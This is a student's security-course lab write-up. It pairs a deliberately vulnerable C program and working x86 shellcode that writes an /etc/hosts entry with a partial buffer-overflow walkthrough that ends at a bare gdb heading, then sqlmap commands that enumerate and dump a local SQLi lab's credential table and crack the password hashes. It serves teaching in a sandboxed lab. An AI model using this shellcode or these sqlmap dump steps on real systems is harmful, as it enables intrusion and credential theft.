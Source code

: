 # Lab #1,22110017, Tran Minh Duy, INSE330380E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
 docker run -it --privileged -v C:/Users/Lenovo/Seclabs:/home/seed/seclabs img4lab
```
![image]
### 2. Create and Compile c program and asm program
-Create c program and asm program.
![alt text](image-1.png)

-Compile them:
```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc -o vullab1 vullab1.c -fno-stack-protector -z execstack -m32
```
![alt text](image-2.png)
### 3. Stack Frame:
![alt text](image-4.png)

If we want to exploit 
- Overflow the Buffer.

The buffer is 16 bytes to send more than 16 bytes to overflow it.<br>
- Overwrite EBP (4 bytes).

The next 4 bytes would overwrite the saved EBP.<br>
- Overwrite Return Address (4 bytes).

To overwrite the return address to point to  the address of system() for a return-to-libc attack.<br>
- 4 bytes for argument for system()
### 4. Use gdb
# Task 2: Attack on the database of Vulnerable App from SQLi lab 

- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Set up lab**
```
docker compose up -d
```
![alt text](image-5.png)

- Install SQL map
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

- Access the login page SQLi LAB: http://localhost:3128/

- Login this page:
```
username: admin
password: seedadmin
```
**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs
```
![alt text](image-6.png)
![alt text](image-7.png)

Sqlmap has successfully listed the databases. Two databases are available:

 - **information_schema**: This is a standard system database in MySQL, containing metadata about the database itself.

 - **sqllab_users**: This appears to be a custom database, likely containing user information or other relevant data.

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:
Retrieve and list all the tables present in the **information_schema** database:
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```
![alt text](image-9.png)
![alt text](image-8.png)

The result shows that there are 79 tables within the **information_schema** database.

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:
```
 python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```
**Choose option 1**

![alt text](image-10.png)
![alt text](image-11.png)

SQLmap is trying to crack hashed passwords (likely retrieved from the credential table) using a dictionary-based attack.

The cracking process starts, and we can see it using several common suffixes ('1', '123', '12', etc.) to test combinations of potential passwords.
SQLmap is running 8 parallel processes to speed up the dictionary attack.

The image below shows the result of dumping the credential table from the sqllab_users database using SQLmap.
![alt text](image-12.png)
